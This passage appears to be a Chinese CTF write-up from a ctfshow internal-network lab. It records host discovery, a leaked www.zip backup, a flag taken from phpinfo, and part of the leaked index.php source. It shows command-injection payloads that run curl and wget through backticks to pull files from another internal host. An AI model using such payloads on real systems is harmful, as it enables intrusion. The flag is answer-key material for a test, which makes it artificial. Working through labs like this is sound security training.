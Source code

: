 发现几台存活主机

```
172.2.171.1 UP
172.2.171.7 UP
172.2.171.6 UP
172.2.171.5 UP
172.2.171.3 UP
172.2.171.2 UP
172.2.171.4 UP
```

发现 172.2.171.5 存在http服务

```
a=echo `curl http://172.2.171.5/`;
//{"code":0,"message":"数据获取失败"}
```

开始对常规文件进行扫描，看是否存在泄露

```
//robots.txt
disallowed /public/
//www.zip
a=echo `wget http://172.2.171.5/www.zip`;
//phpinfo.php
flag_655=ctfshow{aada21bce99ddeab20020ac714686303}
nginx/1.18.0
FPM/FastCGI
```

www.zip中发现index.php

```php
<?php

include 'dbutil.php';
include 'flag.php';
error_reporting(0);
session_start();

$a=$_GET['action'];

switch ($a){
    case 'login':
    	$ret = login($_GET['u'],$_GET['p']);
        break;
    case 'index':
    	$ret = index();
        break;
    case 'main':
    	$ret = main($_GET['m']);
    	break;
    default:
         $ret = json_encode(array(
		'code'=>0,
		'message'=>'数据获取失败',
		));
		break;
}

echo $ret;

function index(){
    $html='管理员请注意，下面是最近登陆失败用户：<br>';
    $ret=db::query('select username,login_time,login_ip from ctfshow_logs  order by id desc limit 3');
```